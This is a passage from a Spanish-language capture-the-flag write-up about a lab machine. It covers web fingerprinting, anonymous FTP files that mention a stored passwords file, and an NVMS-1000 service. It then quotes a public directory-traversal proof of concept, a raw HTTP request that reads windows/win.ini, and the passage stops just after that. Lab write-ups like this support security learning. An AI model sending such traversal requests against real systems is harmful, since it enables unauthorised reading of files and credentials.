 ### Whatweb

Usamos el comando **whatweb** para ver más información:

```bash wrap=false
❯ whatweb http://10.10.10.184
http://10.10.10.184 [200 OK] Country[RESERVED][ZZ], IP[10.10.10.184], Script[text/javascript], UncommonHeaders[authinfo]
```

### FTP (21)

Vemos que el inicio de sesión anónimo de **FTP** está activado, por lo que podemos acceder a 2 archivos de 2 usuarios:

```txt title="Nadine - Credentials.txt"
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```

```txt title="Nathan - Notes to do.txt"
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
```

### NVMS-1000 (80)

En el puerto **80** encontramos un servicio llamado **NVMS-1000**:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F1ve74PcUue3UQxEk4x4A%2Fimage.png?alt=media&#x26;token=96c9e53a-c17a-41c3-baa5-513132edce8c" alt=""><figcaption></figcaption></figure>

## Explotación

### LFI

Buscando exploits sobre este servicio, encontramos un **LFI**:

```txt title="directory_traversal.txt" wrap=false
# Title: NVMS-1000 - Directory Traversal
# Date: 2019-12-12
# Author: Numan Türle
# Vendor Homepage: http://en.tvt.net.cn/
# Version : N/A
# Software Link : http://en.tvt.net.cn/products/188.html

POC
---------

GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 12.0.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

Response
```